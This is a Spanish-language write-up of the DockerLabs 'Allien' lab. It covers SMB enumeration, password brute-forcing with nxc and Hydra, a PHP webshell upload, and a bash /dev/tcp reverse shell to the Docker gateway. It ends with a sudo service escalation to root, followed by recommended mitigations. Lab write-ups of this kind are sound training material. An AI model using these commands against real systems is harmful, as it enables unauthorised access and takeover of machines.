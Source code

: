 # Allien — Resumen de pentesting (DockerLabs)

Objetivo: máquina Allien (entorno Docker).
Alcance: pruebas locales dentro del contenedor/bridge Docker (IP objetivo 172.17.0.2).
Resultado principal: obtención de credenciales SMB, acceso a webshell vía subida de PHP, reverse shell desde contenedor al host (gateway Docker) y escalada a root mediante un sudo service mal configurado.

---

## Preparación del entorno

Sistema atacante: Kali Linux (actualizado).

Descargar y desplegar la máquina Allien (ZIP + auto_deploy.sh) y arrancarla con Docker.

Comandos de setup (ejemplo):

```
sudo apt update && sudo apt full-upgrade -y && sudo apt autoremove -y
mkdir Allien && cd Allien
mv ../Downloads/allien.zip .
sudo unzip allien.zip
sudo chmod +x auto_deploy.sh
./auto_deploy.sh   # lanza la máquina en Docker
```
(Detalles completos en el write-up original).

---

## Reconocimiento y enumeración

- Escaneo Nmap (completo/agresivo):

```
nmap -sC -sV --min-rate=5000 -vvv -A -p- 172.17.0.2 -oN escaneo_allien.txt
```
- Puertos abiertos detectados: 22 (SSH), 80 (HTTP), 139 & 445 (SMB/Samba).
- Enumeración web: gobuster para directorios (index.php, página de productos).
- Enumeración SMB: enum4linux -a, smbmap, rpcclient (comandos enumdomusers y querydispinfo) para obtener usuarios.

---

## Explotación (flujo resumido)

SMB user discovery: enumdomusers / querydispinfo devolvió el usuario **satriani7**.
Fuerza bruta SMB: prueba con metasploit auxiliary/smb_login y con la herramienta netexec/nxc usando rockyou.txt. netexec encontró la contraseña mucho más rápido.

Ejemplo:
  
```
nxc smb 172.17.0.2 -u satriani7 -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```
Acceso a shares con smbclient: conexión con satriani7, listado de shares y lectura de archivos. Al cambiar lcd /tmp se pudieron descargar ficheros (notes.txt, credentiales.txt)
Extracción de credenciales: en los ficheros descargados apareció la credencial de administrator (o credenciales de alto interés).
SSH / Hydra: con la lista de usuarios + passwords se hizo fuerza bruta (Hydra) contra SSH; se obtuvo acceso a la cuenta administrator y luego a ssh con credenciales de administrador.
Acceso web writable: con credenciales administrador se montó el share home con permisos READ/WRITE, se encontró el código fuente web y se subió una webshell PHP (gist de joswr1ght) al docroot.
Webshell → Reverse shell: se ejecutó la webshell y se lanzó reverse shell hacia el host usando la IP del gateway Docker (172.17.0.1), obteniendo un shell www-data dentro del contenedor.

---

## Post-explotación y escalada de privilegios

Desde el shell obtenido como www-data (por la webshell), se buscó vectores de escalada:
Búsqueda de SUIDs: find / -perm -4000 2>/dev/null.
Revisión de sudo con sudo -l.
Se encontró un vector en service (GTFOBins): posible uso de sudo service ../../bin/sh permitiendo ejecutar /bin/sh como root.
Resultado final: root conseguido ejecutando:

```
sudo service ../../bin/sh
# -> root shell
```
Nota clave: la reverse-shell utiliza la IP 172.17.0.1 porque, desde dentro del contenedor, esa IP es la gateway del bridge docker0 (host visto desde contenedor).

---

## Hallazgos / Credenciales (ejemplo)

Usuario descubierto: satriani7 (contraseña encontrada via diccionario).
Credenciales adicionales encontradas en shares: usuario administrator con contraseña (extraída de credentiales.txt).
Share home con permisos de escritura permitiendo subir webshell.

---

## Comandos y herramientas clave utilizadas

- nmap, gobuster, enum4linux, smbmap, rpcclient, smbclient
- metasploit (auxiliary smb_login) y hydra para fuerza bruta SSH.
- netexec / nxc — herramienta de fuerza bruta SMB muy efectiva en este caso.
- subida de webshell PHP (put desde smbclient) y reverse shell (bash -i >& /dev/tcp/172.17.0.1/9001 0>&1).
(Ver el write-up original para comandos completos y ejemplos). 

---

## Mitigaciones recomendadas

### SSH

Deshabilitar autenticación por contraseña (PasswordAuthentication no), usar claves.

Restringir usuarios (AllowUsers) y/o redes.

Implementar rate-limiting / fail2ban / MFA.

### HTTP / Aplicación Web

Validación y saneamiento de uploads; evitar permitir escritura en docroot.

Deshabilitar funciones peligrosas en PHP (disable_functions), usar open_basedir.

WAF (ModSecurity) y uso de HTTPS (redirigir 80→443), headers CSP/HSTS.

### SMB / Samba

No exponer SMB a redes no confiables / Internet.

Forzar NTLMv2, habilitar SMB signing y aplicar ACLs restrictivas en shares.

Revisar permisos de shares: principle of least privilege.

Host / Contenedores

Aislar contenedores y no confiar en shares con permisos de escritura hacia código web.

Monitorizar logs y alertas (ELK/Splunk) para actividad sospechosa.

---

## Conclusión

La máquina Allien demuestra una cadena típica de ataque interno:

Recon (Nmap, fuzzing web, SMB enum) → 2. Descubrimiento de usuarios y fuerza bruta SMB → 3. Acceso a shares con escritura → 4. Subida de webshell → 5. Reverse shell al host vía gateway Docker → 6. Escalada local a root por sudo service mal configurado.
El ejercicio es excelente para practicar enumeración SMB, explotación de permisos de share, técnicas de pivot/reverse shells en entornos Docker y post-explotación/privilege escalation locales. 



